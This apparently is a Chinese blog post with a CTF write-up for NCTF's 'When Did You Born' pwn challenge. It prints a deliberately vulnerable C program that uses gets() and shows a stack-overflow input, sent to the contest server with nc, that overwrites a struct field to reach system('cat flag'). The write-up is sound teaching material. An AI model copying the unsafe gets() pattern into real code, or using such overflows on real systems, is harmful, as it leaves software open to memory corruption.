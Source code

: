```yaml
---
layout: post
title: NCTF Pwn 1 题题解
tags: NCTF Write-up Pwn
---
```


* 目录：
{:toc}

### 100 When Did You Born
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/BPjg8J*9v7FTCfDdHLcxV*PlLzdRBJA3iaUJ6qT5H04!/r/dHkBAAAAAAAA){: width="80%"}  

	> nc 115.28.79.166 5555  
	> 提交格式为flag{************}  
	> 尝试不再Naive  
	> 然后将输入发送至115.28.79.166的5555端口，获取flag  
	>   
	> Tags: gets, 栈溢出   
	> [test](http://ctf.nuptzj.cn/static/uploads/785732eaf09a34c8e3664ce68d7c8e54/test)  [test.c](http://ctf.nuptzj.cn/static/uploads/ead01a3082b1c650ae75089c3634b7a5/test.c)  

* 题解:  
先来看看 test.c: 

	> ```c  
	> #include <stdio.h>
	> 
	> struct Student {
    >     char name[8];
    >     int birth;
	> };
	> 
	> int main(void) {
    >     struct Student student;
    >     printf("What\'s Your Birth?\n");
    >     scanf("%d", &student.birth);
    >     while (getchar() != '\n') ;
    >     if (student.birth == 1926) {
    >         printf("You Cannot Born In 1926!\n");
    >         return 0;
    >     }
    >     printf("What\'s Your Name?\n");
    >     gets(student.name);
    >     printf("You Are Born In %d\n", student.birth);
    >     if (student.birth == 1926) {
    >         printf("You Shall Have Flag.\n");
    >         system("cat flag");
    >     } else {
    >         printf("You Are Naive.\n");
    >         printf("You Speed One Second Here.\n");
    >     }
    >     return 0;
	> }
	> ```  

	再运行该程序试试看:  

	> ```shell
	> biteme@bITeMe:~/下载$ echo -ne "0\n12345678a" | ./test
	> ```  
	> What's Your Birth?
	> What's Your Name?
	> You Are Born In 97
	> You Are Naive.
	> You Speed One Second Here.
	   
	You Are Born In 97, 97 正好是输入中 a 的 ascii 码, 这意味着, gets() 函数将输入超过 8 字节的部分也保留下来, 并且刚好覆盖到高地址(可输出 &student.birth 来观察)的 birth.  
	那么将 a 构造成 1926(0x0786) 就可以满足条件了:

	> ```shell
	> biteme@bITeMe:~/下载$ echo -ne "0\n12345678\x86\x07" | ./test
	> ```
	> What's Your Birth?
	> What's Your Name?
	> You Are Born In 1926
	> You Shall Have Flag.
	> cat: flag: 没有那个文件或目录

	最后用

	> ```shell
	> echo -ne "1\n12345678\x86\x07" | nc -v 115.28.79.166 5555
	> ```

	来获取 flag.


* flag：flag{gets_is_dangerous_+1s}